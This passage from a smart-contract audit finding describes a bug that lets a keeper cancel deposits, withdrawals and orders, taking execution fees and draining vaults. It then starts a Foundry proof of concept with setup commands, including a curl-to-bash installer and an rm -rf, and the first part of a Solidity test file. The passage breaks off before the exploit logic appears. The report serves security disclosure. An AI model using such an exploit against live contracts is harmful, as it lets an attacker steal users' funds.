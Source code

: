 Considering `2000000` is the max callback limit and native token transfer gas limit is large enough to support contracts the above conditions can be met.

I created a POC that exploits the vulnerability on deposits. Keep in mind that it might be easier (lower limits) for Orders as more logic is performed in the `try` statement and therefore more gas is supplied.
See in the `Code Snippet` section

## Impact

1. Keeper can remove all deposits/withdrawals/orders from the protocol.
	1. Essentially stealing all execution fees paid
2. Keeper can create deposits and by leveraging the bug can cancel them when executing while receiving rewards.
	1. Vaults will be drained

## Code Snippet

To get it running, first install foundry using the following command:
1. `curl -L https://foundry.paradigm.xyz | bash` (from https://book.getfoundry.sh/getting-started/installation#install-the-latest-release-by-using-foundryup)
4. If local node is not already running and contracts are not deployed, configured - execute the following:
```bash
npx hardhat node
```
3 Perform the following set of commands from the repository root.
```bash
rm -rf foundry; foundryup; mkdir foundry; cd foundry; forge init --no-commit
```
5. Add the following to `foundry/test/KeeperCancelExecutions.t.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IExchangeRouter {
    function createDeposit(KeeperCancelExecution.CreateDepositParams calldata params) external returns (bytes32);
}

interface IDepositHandler {
    function executeDeposit( bytes32 key, SetPricesParams calldata oracleParams) external;
}
interface IReader {
    function getMarket(address dataStore, address key) external view returns (Market.Props memory); 
}

interface IDataStore {
    function getBytes32(bytes32 key) external view returns (bytes32);
    function setUint(bytes32 key, uint256 value) external;
}
library Market {
    struct Props {
        address marketToken;
        address indexToken;
        address longToken;
        address shortToken;
    }
}
library Deposit {
    struct Props {
        Addresses addresses;
```